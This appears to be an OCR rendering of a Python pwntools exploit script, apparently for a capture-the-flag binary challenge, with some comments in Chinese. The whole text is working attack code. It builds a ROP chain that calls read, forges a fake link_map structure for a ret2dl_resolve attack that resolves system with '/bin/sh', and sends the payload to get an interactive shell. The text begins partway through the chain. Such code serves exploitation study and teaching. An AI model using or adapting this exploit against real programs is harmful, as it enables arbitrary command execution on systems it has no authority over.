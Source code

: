 ```python
payload += p64(0)
payload += p64(read_plt)            # read(0, base_stage, 0x100)
payload += p64(pop_rsi_r15_ret)
payload += p64(0)
payload += p64(0)
payload += p64(pop_rdi_ret)
payload += p64(base_stage+0x40)     # cmd_addr
payload += p64(plt_load)            # jmp dl_resolve (got[2])
payload += p64(base_stage)          # 已经 push 的 link_map (got[1])
payload += p64(0)                   # 已经 push 的 n

p.sendline(payload)

write_got = elf.got['write']
l_addr = libc.sym['system'] - libc.sym['write']

def fake_linkmap_payload(fake_linkmap_addr, known_func_plt, offset):
    # 0x00 DT_STRTAB
    linkmap  = p64(offset & (2**64-1))              # 0x00 l_addr

    linkmap += p64(0x17)                            # 0x08 DT_JMPREL
    linkmap += p64(fake_linkmap_addr + 0x18)        # 0x10 fake_rela
    
    # 0x18
    linkmap += p64((fake_linkmap_addr - offset) & (2**64-1))   # Rela -> r_offset
    linkmap += p64(0x7)                             # Rela -> r_info
    linkmap += p64(0)                               # Rela -> r_append

    linkmap += p64(0x6)                             # 0x30 DT_SYMTAB
    linkmap += p64(known_func_plt - 0x8)

    linkmap += b'/bin/sh\x00'                       # 0x40
    linkmap  = linkmap.ljust(0x68, b'A')
    linkmap += p64(fake_linkmap_addr)               # 0x68 DT_STRTAB_addr
    linkmap += p64(fake_linkmap_addr + 0x30)        # 0x70 DT_SYMTAB_addr
    linkmap  = linkmap.ljust(0xf8, b'A')
    linkmap += p64(fake_linkmap_addr + 0x8)         # 0xf8 DT_JMPREL_addr
    return linkmap

fake_link_map = fake_linkmap_payload(base_stage, write_got, l_addr)

p.sendline(fake_link_map)
p.interactive()
```



